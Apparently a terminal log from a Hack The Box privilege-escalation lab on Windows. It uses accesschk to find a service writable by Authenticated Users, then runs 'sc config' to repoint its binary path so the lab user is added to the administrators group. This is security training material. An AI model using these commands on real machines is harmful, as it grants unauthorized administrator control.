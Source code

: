 

=== *Special* User Privileges ===



=== Unattended Install Files ===



=== McAfee Sitelist.xml Files ===



=== Cached GPP Password ===

  [X] Exception: Could not find a part of the path 'C:\ProgramData\Microsoft\Group Policy\History'.


[*] Completed Privesc Checks in 3 seconds


c:\Tools>accesschk.exe /accepteula -quvcw WindscribeService

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS

c:\Tools>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.

c:\Tools>sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
[SC] ChangeServiceConfig SUCCESS

c:\Tools>sc stop WindscribeService

SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
